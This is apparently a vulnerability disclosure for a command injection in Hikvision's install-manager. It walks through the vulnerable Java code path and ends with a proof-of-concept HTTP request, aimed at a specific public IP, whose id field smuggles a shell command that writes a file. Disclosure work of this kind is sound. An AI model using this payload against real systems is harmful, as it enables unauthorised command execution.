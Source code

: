In the `center/WEB-INF/lib/hik-icd-installmanager-1.3.0-SNAPSHOT/com/hikvision/installmanager/controller/deployment/DeployController.java` method `getDetection`, the parameters `type` and `operate` are accepted respectively, and the value of the parameter `type` is Must be environment.
Then execute, `detectResponse = this.installDetectService.getSystemDetect(detectionRequest, operate);`  
![image](https://github.com/night-0p/anh/assets/54882616/ea03f6d7-9a2e-4b65-b022-01ba4ce99c44)
![image](https://github.com/night-0p/anh/assets/54882616/0f37416f-4d9c-46cb-af38-1740150da746)
`installDetectService#getSystemDetect `  
![image](https://github.com/night-0p/anh/assets/54882616/6a0db0a9-fd37-47b9-89f4-8fe60e7dbeba)
Obtain the array of machines in line 727, then traverse the array of machines, obtain the value of the id key through `String agentNo = machineInstallation.getId()` and assign it to agentNo. In line 87, execute `this.rMachineSelector.findMachineInformation(agentNo)`
![image](https://github.com/night-0p/anh/assets/54882616/f12dd6ac-e46a-4c33-b849-271b898c1c31)
Afterwards, `ReturnSystemDto returnSystemDto = this.agentTaskService.findMachineBasicInformation(agentNo)` is executed, and the convertExecuteCommand method is called in the findMachineBasicInformation method.
![image](https://github.com/night-0p/anh/assets/54882616/c992cd70-8bc7-4a77-8c28-0e6a81357c4b)
In the convertExecuteCommand method of the CommandConvertUtils class, line 56, oneParameter performs splicing commands without filtering. In line 63, the value of cmdArray is returned
![image](https://github.com/night-0p/anh/assets/54882616/1c723f64-f498-4223-a368-fa0a8c7db014)
`Execute CommandExecuteUtils.executeCommand(cmdArray)`; in line 110
![image](https://github.com/night-0p/anh/assets/54882616/8946b725-6128-491f-8f5f-3ef2115dcf94)
Final execution `process = Runtime.getRuntime().exec(cmdArray);`
![image](https://github.com/night-0p/anh/assets/54882616/bc4bf312-23c9-4fb9-a029-565eeed3038d)

poc:
```
POST /center/api/installation/detection HTTP/1.1
Host: 211.142.73.227:1443
Cookie: JSESSIONID=727F097DC9E5183149DB9F8FF4564D7E
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (iPhone; CPU iPhone OS 16_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.47(0x18002f28) NetType/WIFI Language/zh_CN
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 3663

{"type":"environment",
"operate":"",
"machines":{"id":  "$(echo 'dGVzdA==' | base64 --decode >/opt/hikvision/web/components/tomcat85linux64.1/webapps/vms/static/test.txt)"}}
```
Execute POC
![image](https://github.com/night-0p/anh/assets/54882616/35c9a116-a0b3-4b14-8ffe-e559a1bb1d17)
Verify results
![image](https://github.com/night-0p/anh/assets/54882616/72da401d-dd89-4ddd-9c8e-462033255979)
